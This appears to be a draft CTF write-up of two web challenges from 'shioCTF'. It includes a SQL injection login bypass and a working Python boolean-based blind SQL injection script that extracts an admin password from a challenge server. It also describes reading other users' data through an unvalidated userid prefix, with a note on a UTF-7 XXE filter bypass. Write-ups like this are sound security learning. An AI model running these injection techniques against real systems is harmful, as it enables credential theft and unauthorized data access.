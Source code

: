 ```yaml
---
title: "shioCTF"
date: 2024-02-13T08:51:14-03:00
draft: true
---
```


# Web
## SimpleDB
"adminのパスワードを特定してください！"
"Please retrieve the admin password"

Inside the given URL we have a simple form with two fields: "Username" and "Password". Throwing some garbage data we see the used DB is `sqlite3`.

Trying a simple SQL Injection with `admin' OR 1=1;--` nets us the message `"Login successful!"`... but that's not what we're here for.

Googling around for some ways to extract information about a field in sqlite3, I came across this post (https://s-3ntinel.github.io/ctfs/imaginary_ctf2021/web/awkward_bypass/awkward_bypass.html) which seems to describe a similar enough situation calling for a `boolean-based sql injection`.

Copying their code and editing the requests slightly, we end up with:
```python
import requests
import string

db_data = ''
for pos in range(9,32):
    for char in (string.printable.replace('\'','')):
        p = "\\' OR 1=1 AND (SELECT hex(substr(password," + str(pos) + ",1)) FROM users) = hex('" + str(char) + "');--"
        h = {'Content-Type': 'application/x-www-form-urlencoded'}
        d = {'username': 'admin', 'password': p}
        r = requests.post('http://20.205.137.99:49999/', headers=h, data=d)

        # used while debugging
        # print(char, r.content.decode())
        if 'successful' in r.content.decode():
            db_data += str(char)
            print(db_data)
            break

print('Final: shioCTF{' + db_data + '}')
```
And after letting it iterate over each character we end up with `shioCTF{b1ind_sqli_i5_d4nger0u5!}`
## Card
"誕生日カードを送り合えるWebアプリができました！"
"I made a web app to send birthday cards!"

Going in we have two options, send birthday card and see received birthday cards

Send birthday card presents a form with two fields: "address (cookie emoji)" and "message". 
Checking our local cookies, we see we've been assigned a `userid`, this is probably how we send a card to ourselves.
Trying with an example card, we confirm that indeed by using our `userid` as address we can see our sent cards.

Taking a look at the challenge code, we spot it's a Flask app and it processes sent cards as text inside an XML with `etree`. More importantly, it seems there's some safeguards in place to protect from malicious XML with:
```python
card_data = card_data.replace('&','')

card_data = card_data.replace('%','')
```

Changing angles a bit, there is really no verification at all done on the sent `userid`, the search just picks up the files that start with the given `userid`, therefore we can just send a shorter one until we get all of the submitted cards.
Doing so, we find the flag to be `shioCTF{UTF7_1s_u5efu1_enc0d1ng}`

### Analysis
From the flag text, I'm assuming the expectation was to `UTF7` encode the message in order to get around the replacements for `&` and `%` symbols and attempt an XML External Entity Injection. I'd like to come back to this and try the "correct" solution.

